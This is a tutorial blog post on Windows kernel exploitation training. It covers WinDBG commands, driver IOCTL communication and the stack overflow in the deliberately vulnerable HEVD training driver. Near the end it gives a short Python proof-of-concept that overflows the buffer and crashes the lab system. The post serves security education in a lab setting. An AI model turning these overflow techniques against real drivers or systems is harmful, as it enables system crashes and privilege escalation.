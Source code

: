 :slug: hevd-dos/
:date: 2020-09-14
:category: attacks
:subtitle: How to crash Windows
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Chaozzy Lin on Unsplash
:description: This article will be the first approach to start exploting HackSys Extremely Vulnerable Driver with a Denial of Service
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/k8riOACwZDg

= HEVD: Denial of Service

In the last link:../windows-kernel-debugging/[post], we were able to set up
a lab environment to start exploiting vulnerabilities
in the Windows kernel space.

This article will focus on the first steps to exploit the vulnerabilities
on HackSys Extreme Vulnerable Driver (`HEVD`).

First, we need to get familiar with `WinDBG`, a very powerful
debugger from Microsoft with a steep learning curve. We'll also use `IDA`,
specifically the freeware version, which is enough
for most of what we're going to face.

In the end, we're going to be able to crash our Windows 10 OS by leveraging
a vulnerability on `HEVD`. It's nice to crash things for the sake of science.

Let's get our hands dirty!

== WinDBG 101

Before dealing with the exploitation process, I will list some `WinDBG`
commands that have helped me. This is selfishly written as a reference
for myself but kindly shared with you.

* `g`: Short for `Go`. It will resume the execution of the debuggee.

image::g1.png[g command]

* `t`: Short for `Step Into`. It will execute the next instruction.
If it's a `call`, it will jump into the call content.

* `p`: Sort for `Step Over`. It will execute the next instruction.
If it's a `call`, it will execute whatever the call does and jump over it.

* `gu`: Short for `Step Out`. Will resume the execution until a `ret`
instruction is found. Useful when you `Step Into` a function and want to
return to the place it was called.

image::deb1.png[execution flow commands]

* `d*` family: Short for `Display Memory`. It will dump the contents
of a given memory address. The most useful variation on 32 bits debugging
is `dc` (dump double-word and ASCII chars).

image::dc1.png[dt command]

* `lm`: Short for `List Loaded Modules`.
You can filter the output using `lm m <module>`.

image::lm1.png[lm command]

image::lm2.png[lm m <module> command]

* `dt`: Short for `Display Type`. It is used to list data structures.

image::dt1.png[dt command]

* `r`: Short for `Registers`. It will show the value of all the processor
registers and flags. It's also used to change the value of a register.

image::r1.png[r command]

* `u`: Short for `Unassemble`. It will show the instructions
at the given memory address.

image::u1.png[u command]

* `x`: Short for `Examine Symbols`. It will show the symbols at a given module.

image::x1.png[x command]

* `e*` family: Short for `Enter Values`. It will enter a given value to a
specified memory location. The most used variation on 32 bits debugging
is `ed` (enter double-word value).

image::ed1.png[ed command]

* `?`: Evaluate expression.

image::quest1.png[? command]

* `bp`: Short for `Breakpoint`. It will set a software breakpoint
at a given address.

* `bl`: Short for `List Breakpoints`. It will list current breakpoints.

* `bc`: Short for `Clear Breakpoint`. It will remove breakpoints.

image::bp1.png[? command]

This is by no means a comprehensive `WinDBG` reference but will show the
commands I use the most when debugging.

== Talking to Windows drivers

The common main goal of Windows Kernel exploitation is to elevate privileges
to perform any desired task on the affected computer with the most
powerful permissions. We do that by finding a vulnerability in a piece of
code running at kernel-space and establishing a communication between the
exploit in user-mode and the target in kernel-mode,
which is where the drivers live.

As Windows runs in protected mode, user-land instructions cannot
access to kernel-space memory. However, there is an interface provided
by the OS that allows talking to drivers: `IOCTL` calls.

When a driver is installed, it sets a device name using the `IoCreateDevice`
call.

image::iocreatedevice1.png[IoCreateDevice]

It then defines the routines that will expose. Commonly, those routines are
basically functions that will interact with other layers of the OS
(Hardware Abstraction Layer or `HAL`, for example) to manipulate a hardware
device. In `HEVD`, those routines are functions
happening at kernel-level with several vulnerabilities.

Each routine is identified by an `IOCTL` (I/O control) code.

The driver will accept calls to that routines using `IRP` (I/O Request Packets)
structures and will set a handler that will dispatch the specific routine,
given a specific `IOCTL` code:

image::iohandler1.png[IrpHandler]

The `IrpDeviceIoCtlHandler` function in `HEVD` creates a jump table (like
a `switch` statement) for each managed `IOCTL` code:

image::jmptable1.png[JMP table]

In `HEVD`, each `case` of that `switch` statement is handled by another
function that will trigger a specific vulnerable function:

image::jmptable2.png[JMP table]

Now, if we want to talk to that driver, we must get a handle on the
driver's device name, which is `HackSysExtremeVulnerableDrive` in the
case of `HEVD`, and use the `DeviceIoControl` function to send the
`IOCTL` code we want, along with the payload.

In Python, there's a third-party package called `infi.wioctl` that wraps
those calls nicely:

[source,python]
----
from infi.wioctl import DeviceIoControl

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_CODE, PAYLOAD, SIZE, 0, 0)
----

With that, we can start looking for our first vulnerability on `HEVD`.

== HEVD stack overflow

`HEVD` has several vulnerabilities built-in. In this post, we will discover
the most basic, a stack overflow.

When we look at the jump table generated by the `IrpDeviceIoCtlHandler`
function, the first case is this:

image::case1.png[Case 1]

It is triggered when the `IOCTL` code is `2236419` decimal or `0x222003`
in hex. Here, a call to `BufferOverflowStackIoctlHandler` is performed.

Inside `BufferOverflowStackIoctlHandler`, there is a check verifying if
the `IRP` package contains user-supplied data. If it does, a call to
`TriggerBufferOverflowStack` is performed:

image::buffhandler1.png[BufferOverflowStackIoctlHandler]

You can also note that the pointer to the user data is placed on `EDX` and
the pointer to the size of the user data is placed on `EAX`. That information
is then pushed to the stack as the parameters for `TriggerBufferOverflowStack`.
You can see the same in the source code of `HEVD`:

[source,cpp]
----
NTSTATUS
BufferOverflowStackIoctlHandler(
    _In_ PIRP Irp,
    _In_ PIO_STACK_LOCATION IrpSp
)
{
    SIZE_T Size = 0;
    PVOID UserBuffer = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    if (UserBuffer)
    {
        Status = TriggerBufferOverflowStack(UserBuffer, Size);
    }

    return Status;
}
----

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:

image::trigger1.png[TriggerBufferOverflowStack]

This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow because we control both the
`UserBuffer` data and the `SizeOfUserBuffer` value:

image::trigger2.png[TriggerBufferOverflowStack]

Great, it means that if we wanted to overflow the `KernelBuffer`
variable, we should inject a payload with more than 2048 bytes,
using the `IOCTL` code `0x222003`. Let's create our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::success1.gif[Success]

Great! We were able to overwrite `EIP` with our `A` buffer! Now the
target machine is completely unusable and our `DoS` attack was successful.

Also, as we could evidence in our previous link:../tags/osce/[exploitation posts],
we control the execution flow when we control `EIP`.

== Conclusions

This post was intended to cover the first part for interacting
with a Windows driver, and we were able to perform a full Denial of Service
of the victim machine. In the next post, we will use the proven ability
to control the execution flow to
link:../hevd-smep-bypass/[execute code at kernel-level].
